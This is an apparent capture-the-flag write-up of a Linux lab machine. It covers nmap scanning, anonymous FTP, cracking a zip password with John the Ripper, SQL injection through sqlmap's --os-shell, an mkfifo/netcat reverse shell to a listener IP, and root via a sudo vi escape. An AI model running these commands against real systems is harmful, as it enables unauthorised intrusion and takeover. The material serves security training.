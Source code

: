 #Linux #FTP #SQL #SUID

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.17.227
  ```

* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

Open Ports

* 21/tcp open  ftp     vsftpd 3.0.3
* 22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
* 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

![image](https://user-images.githubusercontent.com/99097743/169863478-0bfbc6c9-0ec3-49bf-a48e-13fdbe28576a.png)

**FTP**

Nmap scan highlights that **anonymous FTP login is allowed**

We are able to download the **backup.zip**

![image](https://user-images.githubusercontent.com/99097743/169863972-2e3d4672-6476-4db9-a294-0e3977a458df.png)

We have a situation here, what is the password of the zip file?

![image](https://user-images.githubusercontent.com/99097743/169865265-8d628052-84c0-4743-880b-7b51031655c9.png)

No worries, John the Ripper to rescue!

https://github.com/openwall/john

John the Ripper jumbo - advanced offline password cracker, which supports hundreds of hash and cipher types, and runs on many operating systems, CPUs, GPUs, and even some FPGAs

Here are the steps:


1. Generate the hash of the zipfile and save it as hash

```sh
zip2john backup.zip > hash
```

2. Use **John** to crack the password using commonly used words (rock.txt). If the password does not show up on the terminal, you can see the password in jonh.pot

```sh
john -w=/usr/share/wordlists/rockyou.txt hash
```

Thanks John! We can now unzip the **backup.zip**

* index.php  --> there is a username:password pair with MD5 hash: You can use one of the free services for Decrypt & Encrypt MD5
* style.css

Using the credentials we can log in to the Car Catalogue

![image](https://user-images.githubusercontent.com/99097743/169875305-9ca24fb3-ecf4-4df9-bf70-96ca635e8de5.png)


**SQL Injection**

* If you try a single quote (') inside the search box --> ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
* If you try ' OR '1' = '1  --> No ERROR message: brings all cars as 1=1 always!


Let's use the **sqlmap** for this lab. 

https://github.com/sqlmapproject/sqlmap.git

Automatic SQL injection and database takeover tool

![image](https://user-images.githubusercontent.com/99097743/169881600-07143523-6f87-4718-8a3c-f4e193bf331a.png)

Here are the steps:


1. Capture the GET file of a sample search with BurpSuite as **new.req**

![image](https://user-images.githubusercontent.com/99097743/169882864-38319cd4-af40-4ee0-b1c7-f196263b2886.png)


2. Run the **sqlmap** tool

```sh
sqlmap -r new.req
```
* -r means REQUESTFILE: Load HTTP request from a file

![image](https://user-images.githubusercontent.com/99097743/169883168-7c07a0ba-86fd-4f12-afeb-2c924713107e.png)

3. Run the **--os-shell** command

```sh
sqlmap -r new.req --os-shell
```
* --os-shell means prompt for an interactive operating system shell
*  If asked "Do you want to retrieve the command standard output? [Y/n/a]" --> Click a = ALWAYS

4. Do not forget to active the listener

![image](https://user-images.githubusercontent.com/99097743/169885449-68625d07-68cc-4ef4-9b7c-2d9099f73384.png)

5. Get the reverse shell payload, revshells.com can help us here, we can try **mkfifo**

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.26 87 >/tmp/f
```

![image](https://user-images.githubusercontent.com/99097743/169886969-48f93363-4338-43c0-ab9b-5120fedddf3e.png)

6. We can improve the shell and make it fully interactive using the following commands

```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```
It worked!

![image](https://user-images.githubusercontent.com/99097743/169887719-ad875cea-7937-4477-8af5-66954b722d72.png)

We can now capture the user flag!

![image](https://user-images.githubusercontent.com/99097743/169892144-9a64989d-8b83-482a-8989-72c3c4080914.png)

**Privilege Escalation**

We are trying privilege escalation By using SUID. Let's start with this command:

```sh
find / -perm -4000 -type f 2>/dev/null
```
* / denotes that we will start from the top (root) of the file system and find every directory
* -perm denotes that we will search for the permissions that follow:
* -type states the type of file we are looking for
* f denotes a regular file, excluding directories and special files
* 2>/dev/null means we will redirect all errors to /dev/null. In other words, we will ignore all errors.

**My shell dies after around 15 secs. I need to find a way (if there is any) to make it more stable.**

**SSH Login**

```sh
ssh postgres@{IP}
```

```sh
sudo -l
#This command shows what priviliges we have
```
![image](https://user-images.githubusercontent.com/99097743/169922058-3c2726ef-1d10-4ef2-802b-a762a960e19f.png)

We can run binaries but we need to use **GTFObins** (https://gtfobins.github.io/) to bypass restrictions to run binaries

```sh
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
#(click) : (type) shell=/bin/sh (click enter)
#(click) : (type) shell

whoami
# should be root
```


